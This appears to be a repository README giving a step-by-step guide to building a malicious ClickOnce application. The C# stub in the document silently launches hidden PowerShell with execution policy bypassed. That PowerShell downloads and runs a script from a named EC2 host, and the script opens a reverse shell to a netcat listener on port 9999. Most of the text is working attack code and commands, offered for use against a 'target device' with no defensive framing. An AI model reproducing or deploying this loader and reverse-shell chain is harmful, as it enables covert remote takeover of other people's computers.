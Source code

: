 ## 1. Create lscript.application

1. Go to Visual Studio Community edition
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<YOUR_BASE64_STRING>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```

5. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
6. Create a Powershell base64 payload, copy and save it in the EC2 instance.
7. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
2. Start the listener with ```nc -lnvp 9999```
3. Execute the _lscript.application_ file on the target device.
4. Check the listener.

